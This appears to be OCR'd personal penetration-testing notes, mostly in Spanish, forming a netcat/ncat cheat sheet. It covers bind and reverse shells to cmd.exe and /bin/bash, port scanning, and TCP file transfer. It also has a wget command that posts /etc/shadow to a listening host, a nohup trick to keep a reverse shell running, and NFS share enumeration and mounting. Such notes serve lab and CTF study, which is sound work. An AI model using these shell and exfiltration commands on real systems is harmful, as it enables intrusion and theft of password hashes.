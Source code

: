 14:43

nc -vnlp \&lt;port\&gt; (para quedar listener)

nc -zv 192.168.122.228 1-65535 sirve para probar conexión en todos los puertos.

Shell directa

En Windows 7 (Objetivo de Evaluación) C:\\&gt;nc -v -n -l -p 7777 -e cmd.exe

En Kali Linux (El Atacante) # nc -n -v 192.168.0.15 7777

Reverse shell

En Kali Linux # nc -n -v -l -p 8888

En Windows 7 C:\\&gt;nc -n -v 192.168.0.12 8888 -e cmd.exe

Send a file over TCP port 9899 from host2 (client) to host1 (server).

HOST1$ ncat -l 9899 \&gt; outputfile

HOST2$ ncat HOST1 9899 \&lt; inputfile

------------



nc -nvlp 8081

sudo wget --post-file=/etc/shadow 10.10.14.12:8081 -\&gt; para exfiltrar archivos.

Create an HTTP proxy server on localhost port 8888.

ncat -l --proxy-type http localhost 8888

nc -e /bin/bash o /bin/sh tuIP puerto para levantar una shell.

para evitar que la sesión se caiga, si estás haciendo por ejemplo un &#39;nc -e /bin/bash tuIP puerto&#39;, hazle un

nohup nc -e /bin/bash tuIP puerto &amp;



# NFS explore

Monday, May 18, 2020

6:12 PM

_showmount -e ip-address_

This command shows all the shares exported by NFS.

If this command outputs any shares, you can try mount the shares on to your file system

_mount ip:/file/path /local/file/path_





# NULL SESSION - Cómo conectarse a un servicio SMB vulnerable
